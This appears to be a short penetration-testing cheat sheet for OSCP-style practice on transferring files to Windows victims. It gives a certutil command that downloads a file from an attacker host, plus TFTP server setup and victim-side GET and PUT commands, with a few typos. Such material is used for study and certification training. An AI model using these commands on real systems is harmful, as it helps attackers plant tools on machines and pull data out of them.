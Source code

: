 

## CertUtil

```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"

```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:

mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On victim machine shell:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```


[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)